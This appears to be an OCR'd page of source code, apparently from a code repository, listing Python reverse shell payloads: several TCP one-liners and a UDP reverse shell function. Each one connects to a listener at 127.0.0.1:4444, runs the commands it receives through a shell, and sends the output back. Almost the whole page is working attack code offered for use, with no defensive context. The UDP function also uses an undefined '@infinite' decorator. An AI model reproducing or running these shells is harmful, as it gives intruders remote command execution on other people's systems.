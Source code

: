 ```python
python -c "from socket import *;from subprocess import *;s = socket();s.connect(('127.0.0.1', 4444));[s.send(Popen(args=str(s.recv(512), 'ascii'),stdout=PIPE,stderr=STDOUT,shell=True).stdout.read()) for _ in iter(int, 1)];"
```

```python
python -c "from socket import *;from subprocess import *;s = create_connection(('127.0.0.1', 4444));[s.send(Popen(args=str(s.recv(512), 'ascii'),stdout=PIPE,stderr=STDOUT,shell=True).stdout.read()) for _ in iter(int, 1)];"
```

# Reverse Shell (UDP)

```python
from subprocess import *
from socket     import *

@infinite
def reverse_shell_udp():
    ADDR = ('127.0.0.1', 4444)
    s = socket(type=SOCK_DGRAM)
    s.sendto(b': ', ADDR) 
    [
        s.sendto(
            Popen(
                args = str(s.recvfrom(512)[0], 'ascii'),
                stdout = PIPE, stderr = STDOUT, shell = True
            ).stdout.read(),
            ADDR
        ) for _ in iter(int, 1) 
    ]
    
if __name__ == "__main__":
    reverse_shell_udp()
```

```python
python -c "from subprocess import *;from socket import *;ADDR = ('127.0.0.1', 4444);s = socket(type=SOCK_DGRAM); s.sendto(b': ', ADDR);[s.sendto(Popen(args = str(s.recvfrom(512)[0], 'ascii'),stdout = PIPE, stderr = STDOUT, shell = True).stdout.read(), ADDR) for _ in iter(int, 1)]"
```


